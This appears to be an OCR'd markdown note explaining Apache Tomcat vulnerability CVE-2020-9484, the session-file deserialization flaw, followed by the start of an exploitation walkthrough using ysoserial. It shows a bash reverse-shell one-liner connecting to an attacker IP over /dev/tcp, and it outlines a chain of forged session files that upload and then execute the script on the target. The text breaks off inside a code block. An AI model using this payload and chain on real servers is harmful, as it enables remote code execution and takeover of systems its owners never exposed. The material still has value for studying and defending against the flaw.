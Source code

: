 

---

### Apache Tomcat 9.0.27 vulnerability CVE - 2020 - 9484


1. Tomcat uses the word `“Manager”` to describe the component that does session management.
   - Sessions are used to preserve state between client requests,  
   - Tomcat provides two implementations that can be used:
     - `org.apache.catalina.session.StandardManager` (default)
       - keep sessions in memory.
       - If tomcat is gracefully closed, it will store the sessions in a serialized object on disk (named “SESSIONS.ser” by default).

     - `org.apache.catalina.session.PersistentManager`
       - does the same thing, but with a little extra:
       - swapping out idle sessions.
       - If a session has been idle for x seconds, it will be swapped out to disk.
       - to reduce memory usage.

2. Set the JESSIONID cookie to the path where the file isuploaded
   - if the manager is `StandardManager`
     - it check the session on memory
     - if not ecist, it check on the disk
   - if the manager is `PersistentManager`
     - if the file exists, it will deserializa it and parse the session information from it


---

### use ysoserial to serialize the file


play1.sh (reverse shell code)

uploadfile.session (upload the reverse shell code and store ie in /tmp/targetplay.sh)

executefile.session (exccute the targetplay.sh)



1. create the playload

    ```bash
    vim play1.sh
    # !/bin/bash
    bash -c "bash -i >& /dev/tcp/10.10.15.118(your ip)/2424 0>&1"
    ```

2. download the ysoserial source code
   - [使用github上的ysoserial工具](https://github.com/frohoff/ysoserial)
   - download the lastest jar from [JitPack](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

    ```bash
    git clone https://github.com/frohoff/ysoserial.git

